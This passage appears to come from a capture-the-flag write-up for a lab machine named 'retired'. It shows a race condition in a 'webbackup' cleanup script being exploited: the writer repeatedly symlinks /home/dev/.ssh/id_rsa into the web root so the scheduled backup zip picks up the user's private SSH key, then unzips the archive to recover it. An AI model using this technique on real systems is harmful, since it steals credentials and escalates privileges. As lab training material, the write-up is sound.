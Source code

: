 It is a racing condition as the `webbackup` script will do a cleanup before zipping the files. We need to constantly being creating this symbolic link when the time comes.

```bash
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa dev_key                                                                                      
ln: failed to create symbolic link 'dev_key': File exists                                                                                                
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa dev_key                                                                                      
ln: failed to create symbolic link 'dev_key': File exists
...
...
```

Until finally the script is triggered and we can unzip the backup file containing the user ssh key:
```bash
www-data@retired:/var/www$ mkdir test
www-data@retired:/var/www$ cp 2022-04-29_04-33-06-html.zip test/
www-data@retired:/var/www$ cd test/
www-data@retired:/var/www/test$ unzip 2022-04-29_04-33-06-html.zip
Archive:  2022-04-29_04-33-06-html.zip 
   creating: var/www/html/
   creating: var/www/html/js/
  inflating: var/www/html/js/scripts.js  
  inflating: var/www/html/dev_key    
  inflating: var/www/html/activate_license.php  
   creating: var/www/html/assets/
  inflating: var/www/html/assets/favicon.ico  
   creating: var/www/html/assets/img/
  inflating: var/www/html/assets/img/close-icon.svg  
  inflating: var/www/html/assets/img/navbar-logo.svg  
   creating: var/www/html/assets/img/about/
  inflating: var/www/html/assets/img/about/2.jpg  
  inflating: var/www/html/assets/img/about/4.jpg  
  inflating: var/www/html/assets/img/about/3.jpg  
  inflating: var/www/html/assets/img/about/1.jpg  
   creating: var/www/html/assets/img/logos/
  inflating: var/www/html/assets/img/logos/facebook.svg  
  inflating: var/www/html/assets/img/logos/microsoft.svg  
  inflating: var/www/html/assets/img/logos/google.svg  
  inflating: var/www/html/assets/img/logos/ibm.svg  
   creating: var/www/html/assets/img/team/
  inflating: var/www/html/assets/img/team/2.jpg  
  inflating: var/www/html/assets/img/team/3.jpg  
  inflating: var/www/html/assets/img/team/1.jpg  
  inflating: var/www/html/assets/img/header-bg.jpg  
  inflating: var/www/html/beta.html  
  inflating: var/www/html/default.html   
  inflating: var/www/html/index.php  
   creating: var/www/html/css/
  inflating: var/www/html/css/styles.css
```
